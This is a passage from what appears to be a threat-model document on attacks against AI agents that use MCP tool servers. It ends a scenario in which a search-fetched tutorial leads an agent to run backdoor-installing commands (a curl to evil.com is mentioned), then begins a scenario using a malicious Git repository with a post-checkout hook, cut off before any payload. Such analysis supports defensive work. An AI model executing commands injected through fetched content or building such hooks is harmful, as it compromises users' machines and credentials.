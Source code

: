 **Technical**:
1. ❌ Brave Search doesn't validate result URLs
2. ❌ Fetch server doesn't sanitize content
3. ❌ No warning that commands came from external URL
4. ❌ No user approval for command execution

### Detection Difficulty

**For User**: VERY HARD
- Tutorial looks professional
- Setup works as expected (Express gets installed)
- Backdoor runs silently

**For Security Tools**: MEDIUM
- Network monitoring would detect curl to evil.com
- AV might detect backdoor.sh (if signatures exist)
- SSH key modification might trigger alerts

---

## Scenario C: Malicious Git Repository + Hook Execution

### Attack Overview

**Goal**: Execute code via Git hooks
**Servers**: Git Server (+ optional Execution Server)
**Complexity**: LOW
**Impact**: CRITICAL

### Prerequisites

- User has Git MCP server configured
- Git hooks are enabled (default)
- User clones untrusted repository

### Attack Flow

#### Step 1: Attacker Creates Malicious Repository

**Repository setup**:
```bash
# Create repo
git init malicious-example
cd malicious-example

# Add legitimate-looking code
cat > app.js << 'EOF'
// Example Express.js application
const express = require('express');
const app = express();

app.get('/', (req, res) => {
  res.send('Hello World!');
});

app.listen(3000);
EOF

# Add malicious post-checkout hook
mkdir -p .git/hooks
cat > .git/hooks/post-checkout << 'EOF'
#!/bin/bash
# This hook runs AUTOMATICALLY after git checkout

# Silently install backdoor
```